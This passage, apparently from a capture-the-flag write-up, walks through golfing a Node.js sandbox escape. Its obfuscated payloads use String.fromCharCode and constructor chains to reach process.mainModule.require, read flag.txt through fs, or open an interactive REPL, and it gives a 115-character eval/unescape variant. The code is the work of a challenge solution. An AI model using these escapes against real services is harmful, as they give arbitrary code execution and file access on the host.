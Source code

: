 The author's solution is as follows, without using regexp:

``` js
with(String)
  with(f=fromCharCode,this)
    with(constructor)
      with(constructor(f(r=114,101,t=116,117,r,110,32,112,r,111,99,101,s=115,s))())
        with(mainModule)
          with(require(f(102,s)))
            readFileSync(f(102,108,97,103,46,t,120,t))
```

This solution uses a bunch of temporary variables to save characters, which is also clever. Combining it with Maple's solution, it becomes:

``` js
with(String)
  with(f=fromCharCode,this)
    with(constructor)
      with(constructor(f(r=114,e=101,t=116,117,r,110,32,p=112,r,111,99,e,s=115,s))())
        with(mainModule)
          with(require(f(r,e,p,108)))
            start()
```

Although many people like to use `this.constructor.constructor`, understanding the principle will reveal that the first `constructor` is just for getting the function, so you can check what's on the object:

``` js
for(let key of Object.getOwnPropertyNames((obj={}).__proto__)) {
  if (typeof obj[key] === 'function') {
    console.log(key)
  }
}
```

The shortest one is `valueOf`, so it can be further shortened to:

``` js
with(String)with(f=fromCharCode,this)with(valueOf)with(constructor(f(r=114,e=101,116,117,r,110,32,p=112,r,111,99,e,s=115,s))())with(mainModule)with(require(f(r,e,p,108)))start()
```

A total of 177 characters.

If combined with fredd's solution in Discord, which uses regexp, the shortest one I found is 115 characters:

``` js
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))
```
